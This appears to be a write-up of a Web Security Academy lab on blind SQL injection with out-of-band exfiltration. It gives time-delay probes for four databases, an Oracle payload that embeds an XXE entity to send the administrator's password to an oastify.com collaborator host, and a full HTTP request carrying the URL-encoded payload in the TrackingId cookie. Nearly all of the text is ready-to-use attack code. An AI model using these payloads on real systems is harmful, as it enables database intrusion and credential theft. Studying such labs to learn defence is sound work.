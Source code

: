##### Step 1: identify db with a basic delay.
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|   |   |
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|

##### Step 2: craft the payload with the DNS lookup

``SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual``

then ^ becomes:
`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ta7i08p7rdw5a3jaq0rnjtux0o6fubi0.oastify.com/'||(SELECT password FROM users WHERE username='administrator')||'"> %remote;]>'),'/l') FROM dual--;`



##### Step 3: URL encode and send the request
GET /filter?category=Lifestyle HTTP/2
Host: 0a2b00300338cb83cac8c8a3008300e9.web-security-academy.net
Cookie: TrackingId=nMXd4dv8XY9IIG3W%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%45%58%54%52%41%43%54%56%41%4c%55%45%28%78%6d%6c%74%79%70%65%28%27%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%65%6e%63%6f%64%69%6e%67%3d%22%55%54%46%2d%38%22%3f%3e%3c%21%44%4f%43%54%59%50%45%20%72%6f%6f%74%20%5b%20%3c%21%45%4e%54%49%54%59%20%25%20%72%65%6d%6f%74%65%20%53%59%53%54%45%4d%20%22%68%74%74%70%3a%2f%2f%74%61%37%69%30%38%70%37%72%64%77%35%61%33%6a%61%71%30%72%6e%6a%74%75%78%30%6f%36%66%75%62%69%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%27%7c%7c%28%53%45%4c%45%43%54%20%70%61%73%73%77%6f%72%64%20%46%52%4f%4d%20%75%73%65%72%73%20%57%48%45%52%45%20%75%73%65%72%6e%61%6d%65%3d%27%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%27%29%7c%7c%27%22%3e%20%25%72%65%6d%6f%74%65%3b%5d%3e%27%29%2c%27%2f%6c%27%29%20%46%52%4f%4d%20%64%75%61%6c%2d%2d; session=g0jcWLl3icIMPkOc70ck9ptQsf6QOJPS
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2b00300338cb83cac8c8a3008300e9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

